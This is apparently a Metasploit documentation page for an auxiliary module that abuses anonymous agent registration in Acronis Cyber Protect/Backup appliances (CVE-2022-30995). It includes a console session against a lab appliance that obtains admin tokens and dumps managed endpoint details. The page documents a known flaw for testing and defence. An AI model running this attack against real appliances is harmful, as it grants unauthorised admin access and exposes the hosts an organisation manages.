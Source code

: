 ```msf
  appliance which, in its default configuration, allows the anonymous registration of new
  backup/protection agents on new endpoints. This API endpoint also generates bearer tokens
  which the agent then uses to authenticate to the appliance.
  As the management web console is running on the same port as the API for the agents, this
  bearer token is also valid for any actions on the web console. This allows an attacker
  with network access to the appliance to start the registration of a new agent, retrieve
  a bearer token that provides admin access to the available functions in the web console.

  This module will gather all machine info (endpoints) configured and managed by the appliance.
  This information can be used in a subsequent attack that exploits this vulnerability to
  execute arbitrary commands on both the managed endpoint and the appliance which is covered
  in another module `exploit/multi/acronis_cyber_protect_unauth_rce_cve_2022_3405`.

  Acronis Cyber Protect 15 (Windows, Linux) before build 29486 and
  Acronis Cyber Backup 12.5 (Windows, Linux) before build 16545 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2022-30995
  https://nvd.nist.gov/vuln/detail/CVE-2022-3405
  https://herolab.usd.de/security-advisories/usd-2022-0008/
  https://attackerkb.com/topics/27RudJXbN4/cve-2022-30995

View the full module info with the info -d command.
```
### Acronis Cyber Backup 12.5 build 14330 VMware appliance
```msf
msf6 auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > run

[*] Running module against 192.168.201.6
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] The target appears to be vulnerable. Acronis Cyber Protect/Backup 12.5.14330
[*] Retrieve all managed endpoint configuration details registered at the Acronis Cyber Protect/Backup appliance.
[*] List the managed endpoints registered at the Acronis Cyber Protect/Backup appliance.
[*] ----------------------------------------
[+] hostId: 28BAFD9F-F9F1-481F-A970-1A6ED70736AC
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.0CA16CD4-1C6D-44D2-BEF1-B9F146005EE1@28BAFD9F-F9F1-481F-A970-1A6ED70736AC.disks
[*] type: machine
[*] hostname: WIN-BJDNH44EEDB
[*] IP: 192.168.201.5
[*] OS: Microsoft Windows Server 2019 Standard
[*] ARCH: windows
[*] ONLINE: false
[*] ----------------------------------------
[+] hostId: 345C3F1E-92C3-4E92-8EF8-AC6BF136BB83
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.F70D1B08-5097-4CE5-8E22-F9E0DB75401F@345C3F1E-92C3-4E92-8EF8-AC6BF136BB83.disks
[*] type: machine
[*] hostname: AcronisAppliance-AC319
[*] IP: 192.168.201.6
[*] OS: GNU/Linux
[*] ARCH: linux
[*] ONLINE: true
[*] Auxiliary module execution completed
```